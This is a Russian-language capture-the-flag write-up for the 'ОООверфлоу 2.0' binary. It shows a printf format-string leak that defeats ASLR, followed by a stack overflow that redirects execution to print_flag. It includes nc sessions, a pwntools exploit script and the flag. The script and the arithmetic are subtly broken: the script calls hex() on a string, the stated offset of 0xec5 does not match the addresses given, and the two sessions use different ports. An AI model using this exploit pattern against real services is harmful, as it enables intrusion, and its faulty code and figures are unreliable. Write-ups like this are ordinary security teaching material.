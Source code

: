 # ОООверфлоу 2.0: Write-up

В этом таске мы встречаемся с бинарником, очень похожим на предыдущий таск — декомпилятор показывает точно такой же код.

Однако, запуск того же эксплойта не помогает: адрес не подходит. Запустив локально, например, с помощью `gdb`, обнаруживаем, что адреса функций изменились. Более того, каждый раз они становятся случайными. Это значит, что в таске появился ASLR (как и было указано в подсказке).

Получить флаг нам поможет вывод имени. После того, как мы отвечаем на вопрос, с нами здороваются. Но как? Ответ, как всегда, нам даёт декомпилятор:

```c
  printf("Hello, ");
  printf(&name);
```

Вроде бы всё хорошо, но на самом деле **никогда** не стоит выводить пользовательские данные в первом аргументе функции `printf`. Предположим, пользователь введет имя `%d`:

```
$ nc -v ugractf.ru 5003
Connection to ugractf.ru 5003 port [tcp/*] succeeded!
Segfault v. 1.0
Copyright 2019, OOO "TP"

What's your name?
%d
Hello, -540196773
```

Всё очень просто: `printf("%d", x);` печатает число `x`. Но если у `printf` нет аргумента, то поведение не определено. Существующие реализации стандартной библиотеки начинают просто использовать данные со стека. Таким образом, можно слить все данные на стеке.

Поскольку на сервере 64-битная архитектура, пользуемся модификатором `%lx`, который сливает 8 байт стека. Замечаем, что выводы локально и на сервере сильно различаются: это связано с тем, что локально скорее всего используется `glibc`, а на сервере был Alpine, в котором по умолчанию `musl`. Можно было применить следующую идею: таски ОООверфлоу и ОООверфлоу 2.0 запущены на одинаковых хостах. Адреса в первом таске мы знаем, поэтому искать их в выводе можно было там.

Обнаруживаем, что `%lx` сразу же даёт нам один адрес из библиотеки:

```
$ nc -v ugractf.ru 5002
Connection to ugractf.ru 5002 port [tcp/rfe] succeeded!
Segfault v. 1.0
Copyright 2019, OOO "TP"

What's your name?
%lx
Hello, 40205b
```

Осталось лишь понять, что рандомизация адресов меняет сами адреса, но не разницу между ними, поэтому слив любой адрес, мы получаем адреса всех функций. Во втором задании в бинарном файле функция `print_flag` лежит по адресу `0x11a9` (в отличие от `0x1196` в первом), поэтому слитый адрес всегда будет ровно на 0xec5 отличаться от адреса функции `print_flag`.

Соответственно, переполнить мы этим же чтением адрес возврата не сможем, но у нас есть второе приглашение, которое позволяет сделать то же самое.

Эксплойт для получения флага:

```python3
#!/usr/bin/env python3

from pwn import process, remote, p64
from random import randint
from re import findall

r = remote('ugractf.ru', 5003)
    
greeting = r.recvuntil(b'name?\n')
r.sendline(b'%lx')

address = findall('Hello, ([0-9a-f]+)', r.recvuntil('\n').decode())[0]
print("[*] Leaked address =", hex(address))
    
offset = 0x11a9 - 0x205b # print_flag - (leaked_address)
address = int(address, 16) + offset

print("[*] Flag address =", hex(address))

greeting = r.recvuntil(b'data?\n')
r.sendline(b'A' * 72 + p64(address))

data = r.recvall()
print(data)
```

Флаг: **ugra_45lr_is_not_a_pr0bl3m**
